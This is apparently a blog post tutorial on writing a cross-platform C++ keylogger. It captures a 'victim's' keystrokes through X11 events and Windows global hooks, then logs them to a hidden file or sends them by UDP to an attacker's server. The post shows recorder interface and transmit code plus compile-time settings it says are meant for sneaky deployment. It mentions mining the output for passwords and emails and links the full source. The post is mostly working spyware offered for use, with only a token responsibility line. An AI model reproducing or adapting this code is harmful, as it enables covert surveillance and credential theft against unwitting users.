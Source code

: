 ```yaml
---
title: "keylogger: A Cross-Platform Keylogger"
date: 2023-11-13T11:04:37-08:00
description: "How to write a cross platform keylogger."
tags: ["cli-tools", "c++", "linux", "windows", "x11"]
---
```


If you're familiar with the [kbhell][1] application, you might realize that
kbhell is about 90% of the way to being a keylogger. Why not finish the job and
write a proper, cross platform keylogger that captures a victim's every
keystroke (for science reasons, of course)?

## The Requirements

So there's the obvious requirement of capturing user keystrokes. When you think
about the fact that keyboards have different layouts, there are different
language sets, etc., the task becomes challenging.

Another interesting issue that comes up is how do you record the keystrokes? You
could write it to a hidden file on the victim's PC. Yeah that works but then
you'd need a way of getting that file off their PC. Another idea is to transmit
the data over the network. If sending data over the network, what should trigger
packet transmission? Do you send when you hit some packet size threshold or do
you send data at a fixed frequency?

As an answer to these questions, this keylogger will adhere to the following
requirements:

1. Record user keystrokes that correspond to printable characters as defined by
   the currently installed C locale.
2. Support recording to a plaintext file on the victim PC.
3. Support recording to a UDP socket.
4. Support a configurable recording mode.
5. Support a configurable capture frequency.

The next sections discuss the implementation of these requirements.

## Capturing Keystrokes

The ["Keyboard Hell"][1] article gives coverage of this topic. The basic idea is
that the X11 event system on Linux and global hooks on Windows intercept
keystrokes without any noticeable effect on the rest of the system. 

You can use the `kbhell` keystroke capture code in `keylogger`'s implementation.
The only difference is that instead of playing a sound bite on every keystroke,
you're pushing characters to a recorder object's character buffer. You only push
printable characters as defined by [`std::isprint`][2]. The latter detail is
limiting in that you won't be able to completely playback the victim's key
history. That said, you can still analyze the output to find passwords, emails,
usernames, etc.

## Recording Modes

Based on the initial requirements, you want to support two recording modes: text
and network. Text mode captures character data to a plaintext file on the
victim's PC. Network mode transmits the character data over the network as UDP
packets from the victim's PC to the attacker's server. 

Each mode has a recorder type object implementing the `Recorder` interface:

```cpp
/*!
 * \class Recorder
 * \brief Recorder defines an interface for buffering and transmitting user
 *        keystrokes.
 */
class Recorder {
 public:
  /*!
   * \brief Construct a recorder object with a key limit of \p key_limit.
   * \param key_limit The maximum number of keys the recorder will store in
   *                  memory.
   * \throws std::runtime_error When given a zero or negative \p key_limit
   *                            value.
   */
  explicit Recorder(int key_limit);

  Recorder() = delete;
  virtual ~Recorder() = default;
  Recorder(const Recorder&) = default;
  Recorder& operator=(const Recorder&) = default;
  Recorder(Recorder&&) = default;
  Recorder& operator=(Recorder&&) = default;

  /*!
   * \brief Buffer the char \p character in memory.
   * \details Characters are buffered in memory. If the buffer limit has been
   *          reached, the buffer will be emptied via a call to Transmit() and
   *          then \p character will be added to the buffer.
   * \param character A printable character as classified by the currently
   *                  installed C locale.
   * \throws std::runtime_error When BufferKeyPress() must call Transmit() to
   *                            make room for \p character in the buffer but
   *                            Transmit() fails.
   */
  void BufferKeyPress(char character);

  /*!
   * \brief Transmit keystroke buffer contents to the recording medium.
   */
  virtual void Transmit() = 0;

 protected:
  using CharList = std::vector<char>;

  int num_keys_;  /**< Number of keystrokes currently buffered. */
  CharList keys_; /**< Keystroke char buffer. */
};
```

`Recorder` types all maintain a fixed size `char` buffer called `keys_`. On
construction, the user specifies the size of the buffer via the `key_limit`
constructor parameter. The user can add characters to the buffer via the
`BufferKeyPress()` method. When the buffer is full, `BufferKeyPress()` calls
`Transmit()` and then inserts the new character. `Transmit()` is a method
implemented by all recorder types. `Transmit()` writes buffered data to some
recording medium (for example, a text file or a socket).

As you might have guessed by now, each recording mode has an associated
`Recorder` subtype. The text file recorder has the `FileRecorder` type and the
UDP recorder has the `NetworkRecorder` type. Below is the implementation of the
text and network recorders' `Transmit()` method.

```cpp
void FileRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  /* We open and close the log file everytime Transmit() is called because we
   * want to ensure in the case the program is stopped abruptly, we will have a
   * chance at saving some keystroke data. */
  std::ofstream log_handle(log_path_.c_str(), std::ios_base::app);
  if (!log_handle) {
    throw std::runtime_error("unable to open key log file");
  }
  log_handle.write(keys_.data(), num_keys_);
  num_keys_ = 0;
}

void NetworkRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  int bytes_sent = tx_socket_.Send(keys_.data(), num_keys_);
  if (bytes_sent != num_keys_) {
    std::cerr << "warning: only" << bytes_sent << "/" << num_keys_
              << "bytes sent" << std::endl;
  }
  num_keys_ = 0;
}
```

You'll notice that `FileRecorder::Transmit()` opens and closes the file handle
each time its called. Not the most efficient method of performing file IO.
However, the comment in the code explains the reasoning. When you halt the
keylogger, there's no guarantee that the data sent via the stream gets written
to the file. Explicitly closing the file handle flushes the stream contents. In
retrospect, this would have been a good use case for using
[`std::ostream::flush`][3].

The `NetworkRecorder` uses a wrapper around a Linux/Windows UDP socket to
transmit data. You can look at the UDP wrapper [source][4] to get the full
details.

## Configuration

You might expect to pass configuration via command line args. However, when you
think about the deployment use cases for a keylogger, having to inject your
keylogger's binary plus a bunch of CLI args doesn't sound appealing. To solve
this issue, `keylogger` is compile time configurable. Below are the
configuration options:

```cpp
enum RecorderType {
  kText = 0, /* Record to text file. */
  kNetwork,  /* Record to UDP socket. */
};

/* These are essentially your program options. You want to build your options
 * into the executable to make deployment of the keylogger easier down the line
 * (i.e., you don't want to have to sneakily deploy/inject the keylogger
 * executable AND a bunch of CLI options). */

/* Recording medium. */
#define RECORDER_TYPE RecorderType::kText
/* Max number of keystrokes buffered in memory before the data is written to the
 * recorder. */
#define RECORDER_KEY_LIMIT 8
/* Keystroke log file (RecorderType::kText only). */
#define RECORDER_FILE_PATH "/home/ieg/dev/keylogger/bin/keys.txt"
/* UDP socket IPv4 address and port of the remote server collecting keystroke
 * data (RecorderType::kNetwork only). */
#define RECORDER_IP "127.0.0.1"
#define RECORDER_PORT 5555
```

The keylogger user can select their recording mode and then set options specific
to that mode. One can edit the `keylogger.cpp` file directly or pass the
relevant options to the compiler (for example, `-DRECORDER_KEY_LIMIT=256`).

Regardless of the mode selected, you must always set `RECORDER_KEY_LIMIT`.
`RECORDER_KEY_LIMIT` controls the size of the keystroke buffer and therefore the
frequency of transmission. Set this value too low and the keylogger might be a
bit too noisey (that is, produces a lot of net traffic or disk IO overhead). Set
it too high and you might not see any data transmitted. The sweet spot is up to
the attacker to decide.

## Conclusion

Below is a demo showing `keylogger` in action on a Linux system.

{{< video src="/posts/keylogger/keylogger-demo.mp4" type="video/mp4" preload="auto" >}}

The project includes `key_capture.py`, a script that prints captured key data
from a remote keylogger running in network mode. During the demo, the script
captures keystrokes from the NeoVim editor.

The toughest part of developing the keylogger is by far the capture of global
keystrokes which is highly dependent on the OS and display technology in use.
Beyond that, you have to decide how to record keystrokes. Be responsible with
how you use this or any keylogger!

The complete project source with build instructions, usage, etc. is available on
GitHub under [keylogger][7].

[1]: https://programmador.com/posts/keyboard-hell/
[2]: https://en.cppreference.com/w/cpp/string/byte/isprint
[3]: https://en.cppreference.com/w/cpp/io/basic_ostream/flush
[4]: https://github.com/ivan-guerra/keylogger/blob/master/include/io/udp/udp_socket.h
[5]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/linux_udp_socket.cpp
[6]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/windows_udp_socket.cpp
[7]: https://github.com/ivan-guerra/keylogger.git
